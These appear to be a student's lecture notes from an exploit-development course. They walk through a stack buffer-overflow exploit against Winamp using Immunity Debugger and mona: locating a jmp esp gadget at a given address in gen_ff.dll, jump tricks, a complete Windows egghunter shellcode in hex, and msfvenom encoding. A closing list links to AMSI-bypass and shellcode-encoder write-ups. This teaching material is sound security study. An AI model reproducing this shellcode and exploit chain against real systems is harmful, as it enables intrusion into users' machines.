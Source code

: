 # lecture 1

immunity: set options

* ignore exceptions (via: add latest) before pressing `shift-f9` to pass it
* set proper font (Consolas, regular, 14pt)

---

immunity debugger

* `alt-o` options
* `alt-c` CPU
* `alt-l` log (mona output)

---

winamp

* `alt-3` show file info (take a look at the exploit)
* `str-o` open playlist file
* `x` play

---

* `!mona config -set workingfolder Z:\WH3` (shared folder)
* run program in debugger!
* **`jmp esp`**
* `!mona jmp -n -r esp -cm safeseh=false,rebase=false,aslr=false`
  * find `jmp esp` (`-r` is target register)
  * `-n` skips addresses starting with NULL byte
  * `-cm` speficy options
  * this took very long! (much faster with `-cm`!)
* let's use `0x1a113749` gen_ff.dll
  * `break 0x1a113749`
    * immunity tends to forget breakpoints, so let's keep this
* we have space above our jmp esp
* **negative jump** up! (0xebe0) -> `jmp short -30`
  * works! but too 30 bytes are not enough space for our jmp back
  * neither are 127 bytes (max for negative jmp)
  * let's jump more!
* replace jmp esp + neg. jmp with: **sub esp, sub esp, jmp esp**

* `!mona egg -wow64 -winver10`

from egghunter.txt:

```sh
"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
"\xff\xe7"
```
convert it to bytes with python:

```python
eggh = "\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53" \
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c" \
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7" \
"\xff\xe7"

print(eggh)
```
direct it into a file:

```sh
gen.py > eggh.bin
r2  eggh.bin
aaa;Vpp
```

```sh
cat eggh.bin| msfvenom -p - -a x86 --platform win
 -e x86/alpha_mixed -f perl
```

# lecture 2

* https://amsi.fail/
* https://rastating.github.io/creating-a-custom-shellcode-encoder/
* https://medium.com/manomano-tech/a-red-team-operation-leveraging-a-zero-day-vulnerability-in-zoom-80f57fb0822e
* https://www.golem.de/news/csv-import-luca-app-ermoeglichte-code-injection-bei-excel-2105-156787.html

